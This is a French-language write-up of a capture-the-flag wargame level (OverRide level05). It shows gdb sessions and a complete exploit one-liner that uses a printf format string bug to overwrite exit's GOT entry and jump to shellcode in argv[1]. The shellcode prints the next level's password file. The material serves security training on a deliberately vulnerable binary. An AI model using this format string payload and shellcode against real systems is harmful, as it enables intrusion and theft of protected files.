 ### level05

Dans cet exercice le programme prend un input limité à 100 caractères, transforme les majuscules en minuscules et affiche le résultat.
On a peu de marge d'exploit dans ce programme mais il y a un printf non sécurisé à exploiter.
On va chercher l'adresse d'argv[1] pour y ecrire le shellcode et rediriger le flot d'exécutiion vers ce code.

```bash
level05@OverRide:~$ gdb -q level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) run AAAAAAAAAAAAAAAA
Starting program: /home/users/level05/level05 AAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048449 in main ()
(gdb) x /150x $esp
    . . .
0xffffd8d0:	0x6c657665	0x41003530	0x41414141	0x41414141
0xffffd8e0:	0x41414141	0x00414141	0x4d524554	0x6574783d
    . . .
(gdb) x/s 0xffffd8e6
0xffffd8e6:	 "A"
```

On a l'adresse du dernier caractères de argv[1] : 0xffffd8e6, cette dernière est constante entre les appels.
On va écrire un shellcode qui affiche le .pass de level06
Ce dernier étant long on va prendre une adresse 100 adresses plus tot que le dernier caractère et précéder le code de NOP pour garantir de tomber dessus.

argv[1][-1] = 0xffffd8e6 - 100 = 0xffffd882

Maintenant on doit trouver l'adresse d'exit dans la GOT pour écrire cette adresse à sa place :

```bash
level05@OverRide:~$ gdb -q level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit                    <===
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

L'adresse d'exit : 0x80497e0

La valeur à écrire étant trop grande on va l'écrire en 2 fois, l'octet de poid faible et celui de poids fort.

Octet poids faible : 0xd882 = 55426 - 8 = 55418

Octet poids fort : 0xffff = 65535 - 55426 = 10109

Maintenant qu'on a les bonnes valeurs, on va utiliser $hn pour écrire en valeur le nombre de caractères écris successivement sur les 2 partis de l'adresse.
Et en argument du programme on passe le shellcode qui sera exécuté.

```bash
python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55418x' + '%10\$hn'+ '%10109x' + '%11\$hn')" | ./level05 $(python -c "print('\x90' * 100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass')")
```